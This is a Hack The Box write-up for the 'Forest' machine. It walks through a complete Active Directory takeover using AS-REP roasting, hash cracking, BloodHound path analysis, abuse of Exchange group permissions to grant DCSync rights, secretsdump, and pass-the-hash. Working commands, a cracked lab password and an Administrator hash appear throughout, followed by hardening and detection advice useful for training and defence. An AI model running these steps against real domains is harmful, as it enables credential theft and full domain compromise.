

# Forest

**Platform:** HTB | **Difficulty:** Easy | **OS:** Windows | **Date:** 14/06/2025

## Executive Summary

Complete domain compromise achieved through AS-REP roasting and Exchange permissions abuse. Attack path: anonymous LDAP enumeration → AS-REP roast service account → BloodHound analysis → Account Operators group abuse → DCSync attack.

**Key Techniques:**
- AS-REP roasting against `svc-alfresco` (pre-auth disabled)
- BloodHound path analysis from owned user to domain admin
- Exchange Windows Permissions group privilege escalation
- DCSync attack via PowerView and secretsdump

---

## Phase 1: Reconnaissance & Initial Access

### Network Discovery

```bash
nmap -sC -sV -T4 10.10.10.161 -oA nmap/forest
```

| Port | Service      | Version                                         |
| ---- | ------------ | ----------------------------------------------- |
| 53   | domain       | Simple DNS Plus                                 |
| 88   | kerberos-sec | Microsoft Windows Kerberos                      |
| 135  | msrpc        | Microsoft Windows RPC                           |
| 139  | netbios-ssn  | Microsoft Windows netbios-ssn                   |
| 389  | ldap         | Microsoft Windows Active Directory LDAP         |
| 445  | microsoft-ds | Windows Server 2016 Standard 14393 microsoft-ds |
| 464  | kpasswd5     | N/A                                             |
| 593  | ncacn_http   | Microsoft Windows RPC over HTTP 1.0             |
| 636  | tcpwrapped   | N/A                                             |
| 3268 | ldap         | Microsoft Windows Active Directory LDAP         |
| 3269 | tcpwrapped   | N/A                                             |
| 5985 | http         | Microsoft HTTPAPI httpd 2.0                     |

**Key Observations:**
- Port 88 (Kerberos) confirms domain controller role
- Port 389/3268 (LDAP) enables directory enumeration  
- Port 5985 (WinRM) provides potential remote access
- Standard DC port profile - no web services

### DNS Configuration
I generated and appended a static hostname mapping to `/etc/hosts` to avoid possible DNS resolution issues later on with Kerberos.

```bash
nxc smb '10.10.10.161' --generate-hosts-file files/hosts && sudo tee -a /etc/hosts < files/hosts

tail -n 1 /etc/hosts
10.10.10.161     FOREST.htb.local FOREST
```

### User Discovery via LDAP
Anonymous LDAP enumeration identified seven active domain users:

```bash
nxc ldap 'FOREST' -u '' -p '' -d 'htb.local' --active-users | awk '{print $5}' | grep -v '^[H,\[,-]' > files/users.txt && cat files/users.txt 

Administrator
sebastien
lucinda
svc-alfresco
andy
mark
santi
```


---

## Phase 2: Exploitation - AS-REP Roasting Attack

### Understanding AS-REP Roasting
When "Do not require Kerberos pre-authentication" is enabled on an account, authentication tickets can be requested without credentials, then cracked offline. This commonly occurs with legacy service accounts for application compatibility.

### The Attack
AS-REP roasting identified vulnerable service account `svc-alfresco` with pre-authentication disabled:

```bash
nxc ldap 'FOREST' -u files/users.txt  -p '' -d 'htb.local' --asreproast files/roast.txt     

...
LDAP        10.10.10.161    389    FOREST           $krb5asrep$23$svc-alfresco@HTB.LOCAL:d92213ff872a80624a412d802a52b446$...
```

### Hash Cracking
AS-REP hash cracked with `hashcat`, revealing weak password `s3rvice`:

```bash
hashcat -m 18200 -a 0 files/roast.txt /usr/share/wordlists/rockyou.txt

...
$krb5asrep$23$svc-alfresco@HTB.LOCAL:b73c81fb8c33164c016884a6be75e669$2beb8c478e9b6f4b0b1ee2aeaba1821f22f189957bf8b9ee4f15f5ac1317a7c3678fd71f9fc0d926a3529dbfed42c26bf119bf475f96a38af3bdb1b0c6085cff57e63015e95b3fec76271c4736df2fb34c46edbca9614f05eee7e8c2c0e524aa2acd07de8a1b17feb7380c29ea75f86f328868bc893b9a36f41ba6f67ff3a02ff4ce1e2784868cc156b91ab5f5aa3a3f91e61fca6b61ab70dbd9e20a0f49a653078d638bf2588ad564c1c91d601cc07f7fc10b0e22f4b5803a0e8540eef8f2e1e9fd3e45525337b6ca0ef27788ae6ef610822c8e0147fd9b39919e8739a872ca3584d7658274:s3rvice
...
```

**Real-world note:** Password `s3rvice` demonstrates typical weak service account passwords set for administrative convenience.

### Initial Access
Credentials validated for WinRM access:

```bash
nxc winrm 'FOREST' -u 'svc-alfresco' -p 's3rvice' -d 'htb.local'

WINRM       10.10.10.161    5985   FOREST           [*] Windows 10 / Server 2016 Build 14393 (name:FOREST) (domain:htb.local) 
WINRM       10.10.10.161    5985   FOREST           [+] htb.local\svc-alfresco:s3rvice (Pwn3d!)
```

Remote shell established:

```bash
evil-winrm -i 'FOREST' -u 'htb.local\svc-alfresco' -p 's3rvice'

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>
```

**User flag** captured from `svc-alfresco`'s Desktop:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> more ../Desktop/user.txt
```

---

## Phase 3: Privilege Escalation - BloodHound Analysis

### Why BloodHound is Essential
BloodHound revolutionized AD security by visualizing complex privilege relationships. Instead of manual enumeration, it provides a graph database of the entire domain, revealing attack paths that would be difficult to discover manually.

### Data Collection
```powershell
# SharpHound was already present in svc-alfresco's home directory
*Evil-WinRM* PS C:\Users\svc-alfresco> .\hound.exe -c all --zipfilename loot.zip

...
 118 name to SID mappings.
 0 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2025-06-14T16:09:59.0652881-07:00|INFORMATION|SharpHound Enumeration Completed at 4:09 PM on 6/14/2025! Happy Graphing!
```

Data exfiltrated for local analysis:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco> download 20250614160957_loot.zip
                                        
Info: Downloading C:\Users\svc-alfresco\20250614160957_loot.zip to 20250614160957_loot.zip                  
```

**Pro tip:** In real engagements, you'd typically upload SharpHound or use PowerView for data collection.

### Attack Path Discovery
BloodHound custom Cypher query to identify privilege escalation paths from owned principals to domain Tier 0:

```cypher
MATCH p = allShortestPaths((u:User)-[:AbuseTGTDelegation|AllowedToDelegate|HasSIDHistory|ADCSESC1|CanPSRemote|HasSession|ADCSESC10a|CanRDP|MemberOf|ADCSESC10b|CoerceAndRelayNTLMToADCS|Owns|ADCSESC13|CoerceAndRelayNTLMToLDAP|OwnsLimitedRights|ADCSESC3|CoerceAndRelayNTLMToLDAPS|ReadGMSAPassword|ADCSESC4|CoerceAndRelayNTLMToSMB|ReadLAPSPassword|ADCSESC6a|CoerceToTGT|SameForestTrust|ADCSESC6b|Contains|SpoofSIDHistory|ADCSESC9a|DCFor|SQLAdmin|ADCSESC9b|DCSync|SyncedToEntraUser|AddAllowedToAct|DumpSMSAPassword|SyncLAPSPassword|AddKeyCredentialLink|ExecuteDCOM|WriteAccountRestrictions|AddMember|ForceChangePassword|WriteDacl|AddSelf|GPLink|WriteGPLink|AdminTo|GenericAll|WriteOwner|AllExtendedRights|GenericWrite|WriteOwnerLimitedRights|AllowedToAct|GoldenCert|WriteSPN*1..]->(b:Base))
WHERE "owned" IN split(u.system_tags, " ")
  AND "admin_tier_0" IN split(b.system_tags, " ")
RETURN p
LIMIT 1000
``` 

**Critical finding:** Attack path identified through Account Operators group membership:



**Key insight:** Exchange installations often require extensive permissions that create unintended privilege escalation paths. The Account Operators → Exchange Windows Permissions → DCSync chain is commonly seen in enterprise environments.

---

## Phase 4: Advanced Exploitation - DCSync Attack

### Understanding the Attack Chain
**Strategy:** Leverage Account Operators privileges to create a user with Exchange permissions, then abuse WriteDACL to grant DCSync rights and extract domain controller password hashes.

### Step 1: User Creation
```powershell
# Create new user with Account Operators privileges
$SecPass = ConvertTo-SecureString 'password' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('HTB.LOCAL\\wither', $SecPass)
New-ADUser -Name "wither" -SamAccountName "wither" -AccountPassword $SecPass -Enabled $true
```

### Step 2: Group Membership Manipulation
```powershell
# Add to Exchange Windows Permissions group for WriteDACL access
Add-ADGroupMember -Identity "Exchange Windows Permissions" -Members wither
```

### Step 3: DCSync Rights Assignment
```powershell
# Grant DCSync rights using Exchange Windows Permissions group membership
# Critical: Use -Credential to run under wither's context (Exchange Windows Permissions member)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-DomainObjectAcl -PrincipalIdentity wither -Rights DCSync -TargetIdentity "DC=htb,DC=local" -Credential $Cred -Verbose

...
Verbose: [Add-DomainObjectAcl] Granting principal CN=wither,CN=Users,DC=htb,DC=local 'DCSync' on DC=htb,DC=local
...
```

**Technical detail:** The `-Credential $Cred` parameter ensures the command executes under `wither`'s security context, which has the necessary Exchange permissions.

### Step 4: Hash Extraction
```bash
# DCSync attack to extract Administrator hash
wither@kali:~/CTF/HTB/Forest/files$ secretsdump.py 'HTB'/'wither':'password'@'FOREST' 

...
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
...
[*] Kerberos keys grabbed
...
[*] Cleaning up...
```

### Step 5: Domain Admin Access
Pass-the-hash attack achieved domain administrator access:

```bash
evil-winrm -i 'FOREST' -u 'htb.local\Administrator' -H 32693b11e6aa90eb43d32c72a07ceea6

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

**Root flag** captured from Administrator's Desktop:

```powershell
*Evil-WinRM* PS C:\Users\Administrator\Documents> more ..\Desktop\root.txt
```

---

## Key Lessons Learned

### Service Account Security
- **Disable pre-authentication only when absolutely necessary** for legacy application compatibility
- **Implement strong, randomly generated passwords** for all service accounts
- **Regular audit of service account configurations** and group memberships

### Exchange Environment Hardening
- **Review Exchange Windows Permissions group membership** regularly
- **Apply principle of least privilege** to Exchange service accounts
- **Monitor DCSync privilege grants** through security event logging

### Attack Path Analysis
- **BloodHound analysis is essential** for complex AD environments with nested group relationships
- **Understand privilege inheritance chains** and how group memberships compound
- **Regular privilege review** prevents dangerous escalation paths from persisting

---

## Real-World Applications

This attack chain represents actual techniques encountered in enterprise penetration tests:

**Common Scenarios:**
- Legacy service accounts with disabled pre-authentication for application compatibility
- Over-privileged Exchange installations with excessive domain permissions
- Complex group membership chains that create unintended privilege paths
- Inadequate monitoring of sensitive group membership changes

**Detection Opportunities:**
- Monitor AS-REP requests without pre-authentication requirements
- Alert on unusual group membership modifications, especially Exchange-related groups
- Log and investigate DCSync operations and anomalous domain controller replication
- Implement BloodHound-style relationship analysis in security operations

---

## Tool Performance Assessment

**NetExec** proved excellent for initial enumeration and credential validation across multiple protocols (LDAP, WinRM, SMB). Its modular approach and clear output formatting make it ideal for systematic enumeration.

**BloodHound** analysis was essential for identifying the non-obvious privilege escalation path through Account Operators. Manual enumeration would have been time-consuming and error-prone.

**PowerView** DCSync attack executed reliably with proper credential context. The ability to specify alternate credentials is crucial for privilege escalation scenarios.

**evil-winrm** provided stable remote access throughout the engagement with excellent file transfer capabilities for data exfiltration.

---

## Conclusion

This engagement demonstrates a realistic AD attack chain commonly encountered in enterprise environments. Complete domain compromise was achieved through exploitation of common misconfigurations rather than software vulnerabilities.

**Critical Misconfigurations Exploited:**
- Service account with Kerberos pre-authentication disabled
- Over-privileged Exchange installation creating unintended privilege escalation paths  
- Account Operators group membership allowing unrestricted group manipulation

**Key Technical Takeaway:** Modern AD attacks rely more on privilege relationship abuse than vulnerability exploitation. Understanding these relationship chains is crucial for both offensive security practitioners and defensive teams.

**Attack Timeline:**
1. Anonymous LDAP enumeration revealed domain users (5 minutes)
2. AS-REP roasting exploited disabled pre-authentication (10 minutes)  
3. BloodHound analysis identified privilege escalation path (15 minutes)
4. Exchange Windows Permissions group abuse enabled DCSync attack (30 minutes)
5. Domain controller replication extracted all password hashes (2 minutes)

Total time to domain admin: **62 minutes**

## References

- [ASREPRoast \| NetExec](https://www.netexec.wiki/ldap-protocol/asreproast)
- [AS-REP Roasting \| Red Team Notes](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat)
- [bloodhoundce-resources/custom\_queries/BloodHound\_CE\_Custom\_Queries.md at main · CompassSecurity/bloodhoundce-resources · GitHub](https://github.com/CompassSecurity/bloodhoundce-resources/blob/main/custom_queries/BloodHound_CE_Custom_Queries.md)
- [HackTricks/windows-hardening/active-directory-methodology/dcsync.md at master · b4rdia/HackTricks · GitHub](https://github.com/b4rdia/HackTricks/blob/master/windows-hardening/active-directory-methodology/dcsync.md)
- [AD Series \| DC Sync Attacks. DCSync Attack is a type of "credential… \| by Urshila Ravindran \| Medium](https://medium.com/@urshilaravindran/ad-series-dc-sync-attacks-e76bb54308f5)

---
#forest #htb #easy #windows #netexec #asreproast #hashcat #evil-winrm #bloodhound #sharphound #dcsync #secretsdump #pass-the-hash